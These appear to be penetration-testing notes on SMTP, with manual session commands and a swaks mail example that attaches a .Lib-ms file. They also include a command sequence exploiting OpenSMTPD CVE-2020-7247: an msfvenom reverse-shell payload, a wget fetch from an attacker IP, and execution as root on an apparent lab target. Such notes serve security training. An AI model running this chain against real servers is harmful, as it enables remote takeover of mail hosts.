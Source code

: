 # SMTP (25,587)

The **Simple Mail Transfer Protocol (SMTP)** is used to **send emails** on ports `25` and `587`. The former is used used mainly for server-to-server email delivery and is often blocked by ISPs to prevent spam. The latter is used by users to send emails through their mail provider and it requires authentication (username & password); it is the modern, secure way to submit outgoing mail.

```bash
# Connect to SMTP server
telnet mail.example.com 25
openssl s_client -connect <ip>:587

# Greet the server
HELO attacker.com
# or
EHLO attacker.com          # Extended SMTP (for authentication & more)

# Specify the sender email
MAIL FROM:<sender@example.com>

# Specify the recipient email
RCPT TO:<recipient@example.com>

# Start composing the email message
DATA

# Write email headers and body (end with a single dot '.' on a line)
Subject: Test Email

This is the email body.
.

# Authenticate using base64 encoded username and password (if needed)
AUTH LOGIN
<base64-username>
<base64-password>

# Close the session
QUIT

```

## Communication

{% code overflow="wrap" %}
```bash
swaks --to x1337@hacking.com --from x7331@hacking.com --header "Subject: Hello" --body @body.txt --attach @config.Lib-ms --server 192.168.1.1 --port 25 --auth LOGIN --auth-user x7331@hacking.com --auth-password 'Pass123!'
```
{% endcode %}

## Exploits

### OpenSMTPD

OpenSMTPD is a free and open-source mail transfer agent (MTA) developed as part of the OpenBSD project. Designed with security and simplicity in mind, it implements the SMTP to handle the sending and receiving of email. OpenSMTPD aims to provide a secure and easy-to-audit alternative to more complex MTAs. It is commonly deployed on Unix-like systems and is known for a minimal codebase, privilege separation, and strict adherence to secure coding practices.

**OpenSMTPD versions from 6.4 to 6.6.1** are vulnerable to [CVE-2020-7247](https://nvd.nist.gov/vuln/detail/CVE-2020-7247) and allows **RCE** as `root` via specially crafted SMTP messages. The issue arises from **improper input validation** in the `smtpctl` or `mail-from` handling logic, where attacker-supplied input is passed directly to a shell without sanitization. By sending a maliciously crafted email address, arbitrary shell commands can be executed on the target system with elevated privileges.

{% code overflow="wrap" %}
```bash
$ searchsploit OpenSMTPD
OpenSMTPD 6.6.1 - Remote Code Execution | linux/remote/47984.py

# Create reverse shell payload
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.170 LPORT=25 -f elf -o revshell.elf

# Transfer malicious file
$ python3 47984.py bratarina 25 "wget 192.168.45.170/revshell.elf -O /tmp/revshell.elf"

# Assign execute permissions
 python3 47984.py bratarina 25 "chmod +x /tmp/revshell.elf && ./tmp/revshell.elf"
                                                                                                                                                                                                                 
# Execute the file                                                                                                                                                                                                                           
$ python3 47984.py bratarina 25 "/tmp/revshell.elf" 
```
{% endcode %}

